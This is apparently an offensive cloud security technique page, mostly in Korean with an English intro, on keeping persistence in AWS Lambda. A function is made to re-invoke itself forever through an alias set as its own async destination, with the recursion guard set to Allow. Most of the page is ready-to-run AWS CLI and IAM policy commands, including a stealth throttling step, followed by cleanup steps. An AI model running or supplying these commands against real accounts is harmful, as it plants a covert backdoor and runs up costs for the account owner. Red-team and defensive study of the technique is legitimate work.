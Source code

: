 # AWS - Lambda Async Self-Loop Persistence via Destinations + Recursion Allow

Abuse Lambda asynchronous destinations together with the Recursion configuration to make a function continually re-invoke itself with no external scheduler (no EventBridge, cron, etc.). By default, Lambda terminates recursive loops, but setting the recursion config to Allow re-enables them. Destinations deliver on the service side for async invokes, so a single seed invoke creates a stealthy, code-free heartbeat/backdoor channel. Optionally throttle with reserved concurrency to keep noise low.

노트
- Lambda는 함수를 직접 자신의 destination으로 설정하는 것을 허용하지 않습니다. destination으로 함수 alias를 사용하고, execution role에 해당 alias를 invoke할 수 있도록 허용하세요.
- 최소 권한: 대상 함수의 event invoke config 및 recursion config를 읽고 업데이트할 수 있는 권한, 버전 publish 및 alias 관리 권한, 그리고 alias에 대해 lambda:InvokeFunction을 허용하도록 함수의 execution role 정책을 업데이트할 수 있는 권한.

## 요구사항
- Region: us-east-1
- 변수:
- REGION=us-east-1
- TARGET_FN=<target-lambda-name>

## 단계

1) 함수 ARN과 현재 recursion 설정 확인
```
FN_ARN=$(aws lambda get-function --function-name "$TARGET_FN" --region $REGION --query Configuration.FunctionArn --output text)
aws lambda get-function-recursion-config --function-name "$TARGET_FN" --region $REGION || true
```
2) 버전을 게시하고 alias를 생성/업데이트합니다 (self destination으로 사용됨)
```
VER=$(aws lambda publish-version --function-name "$TARGET_FN" --region $REGION --query Version --output text)
if ! aws lambda get-alias --function-name "$TARGET_FN" --name loop --region $REGION >/dev/null 2>&1; then
aws lambda create-alias --function-name "$TARGET_FN" --name loop --function-version "$VER" --region $REGION
else
aws lambda update-alias --function-name "$TARGET_FN" --name loop --function-version "$VER" --region $REGION
fi
ALIAS_ARN=$(aws lambda get-alias --function-name "$TARGET_FN" --name loop --region $REGION --query AliasArn --output text)
```
3) 함수 실행 역할이 별칭을 호출할 수 있도록 허용 (Lambda Destinations→Lambda에서 필요)
```
# Set this to the execution role name used by the target function
ROLE_NAME=<lambda-execution-role-name>
cat > /tmp/invoke-self-policy.json <<EOF
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "lambda:InvokeFunction",
"Resource": "${ALIAS_ARN}"
}
]
}
EOF
aws iam put-role-policy --role-name "$ROLE_NAME" --policy-name allow-invoke-self --policy-document file:///tmp/invoke-self-policy.json --region $REGION
```
4) async destination을 alias(self via alias)로 설정하고 retries를 비활성화
```
aws lambda put-function-event-invoke-config \
--function-name "$TARGET_FN" \
--destination-config OnSuccess={Destination=$ALIAS_ARN} \
--maximum-retry-attempts 0 \
--region $REGION

# Verify
aws lambda get-function-event-invoke-config --function-name "$TARGET_FN" --region $REGION --query DestinationConfig
```
5) 재귀 루프를 허용
```
aws lambda put-function-recursion-config --function-name "$TARGET_FN" --recursive-loop Allow --region $REGION
aws lambda get-function-recursion-config --function-name "$TARGET_FN" --region $REGION
```
6) 단일 비동기 invoke 시드
```
aws lambda invoke --function-name "$TARGET_FN" --invocation-type Event /tmp/seed.json --region $REGION >/dev/null
```
7) 지속적인 호출 관찰 (예시)
```
# Recent logs (if the function logs each run)
aws logs filter-log-events --log-group-name "/aws/lambda/$TARGET_FN" --limit 20 --region $REGION --query events[].timestamp --output text
# or check CloudWatch Metrics for Invocations increasing
```
8) 선택적 은밀 속도 제한
```
aws lambda put-function-concurrency --function-name "$TARGET_FN" --reserved-concurrent-executions 1 --region $REGION
```
## 정리
루프를 중단하고 persistence를 제거합니다.
```
aws lambda put-function-recursion-config --function-name "$TARGET_FN" --recursive-loop Terminate --region $REGION
aws lambda delete-function-event-invoke-config --function-name "$TARGET_FN" --region $REGION || true
aws lambda delete-function-concurrency --function-name "$TARGET_FN" --region $REGION || true
# Optional: delete alias and remove the inline policy when finished
aws lambda delete-alias --function-name "$TARGET_FN" --name loop --region $REGION || true
ROLE_NAME=<lambda-execution-role-name>
aws iam delete-role-policy --role-name "$ROLE_NAME" --policy-name allow-invoke-self --region $REGION || true
```
## 영향
- 단일 async invoke는 외부 스케줄러 없이 Lambda가 지속적으로 자체 re-invoke되게 하여 은밀한 persistence/heartbeat를 가능하게 합니다. Reserved concurrency는 노이즈를 단일 warm execution으로 제한할 수 있습니다.
